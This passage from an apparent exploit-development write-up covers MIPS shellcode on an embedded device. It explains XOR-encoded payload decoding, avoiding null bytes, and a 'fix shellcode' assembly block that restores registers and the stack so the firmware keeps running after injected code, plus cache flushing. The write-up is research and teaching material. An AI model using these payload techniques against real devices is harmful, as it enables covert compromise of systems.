The input values are as follows:

| Register | Value |
| - | - |
| *$s0* | Not used |
| *$s1* | Address of encoded shellcode |
| *$s2* | Encoded length of encoded shellcode |
| *$s3* | XOR key (I used *0xf6f6f6f6*) |

As this is not encoded, some modifications had to be made to remove any 0's in the generated machine code. The first is that an offset of *0x1010* had to be used in a couple of places, as the offset makes up 2 bytes, setting it to *0x1010* prevents the offset bytes from being 0. The second is how *$s1* is increased by 4, again, the immediate value we are adding is 2 bytes, so adding 4 will result in *0x00 0x04* being in our payload. Therefore, the first modifying addition has to be greater than *0x100*, the second doesn't matter as much as it is negative, but it must result in *$s1* being increased by 4.

## Fix Shellcode

Now that we know the values required in the overwritten registers, we can create a fix shellcode that fills the registers with these values after we have run our main shellcode:

```c
xor $v0, $s3, $s3;      /* fix v0 (in branch delay slot) */
lui $t0, 0x802c;
ori $s0, $t0, 0x0404;   /* fix s0 (0x802c0404) */
lui $s1, 0x8025;
ori $s1, $s1, 0x0504;   /* fix s1 (0x8025d504) */
ori $s2, $t0, 0x5268;   /* fix s2 (0x802C5268) */
lui $s3, 0x802a;        
ori $s3, $s3, 0xb9f4;   /* fix s3 (0x802ab9f4) */
addiu $sp, $sp, 0xfff;  /* Fix up stack once shellcode done */
j 0x801888e0;
addiu $sp, $sp, -0xfef;
```

As you can see, we are just loading the values into the corresponding registers with a series of `lui` and `ori` instructions. We also set *$v0* to 0 as otherwise it crashes due to a branch in one of the handlers. We also use the same return value and stack pointer modification as earlier - if it ain't broke don't fix it!

## Putting Everything Together

To test everything is working as expected, I put together a simple example that simply prints a string in memory to the debug console. 

### Flushing Caches

The standard approach when using a decoder is to decode the main shellcode, and then jump to it straight away. As the shellcode is self-modifying, the instruction and data caches I mentioned earlier must be flushed. Otherwise the memory that has been modified will remain in the data cache, and not the actual memory - so when you try and execute it, you will hit the encoded version. 

